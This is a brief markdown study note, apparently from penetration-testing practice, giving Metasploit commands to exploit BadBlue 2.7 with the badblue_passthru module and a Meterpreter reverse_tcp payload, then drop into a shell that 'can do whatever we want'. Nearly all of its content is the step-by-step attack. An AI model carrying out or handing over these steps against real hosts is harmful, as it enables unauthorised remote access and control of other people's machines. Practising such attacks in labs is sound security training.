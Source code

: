 ### Exploit 

In this case, msfconsole has a vulnerability 
+ Will `search badblue 2.7`
+ can `use exploit/windows/http/badblue_passthru`
+ `set rhosts IP`
+ `set payload windows/meterpreter/reverse_tcp`
+ `set lhost eth1`
+ once in meterpreter, type `shell`

Now have a <mark style="background: #FFB86CA6;">reverse shell</mark>
+ Can do whatever we want from there
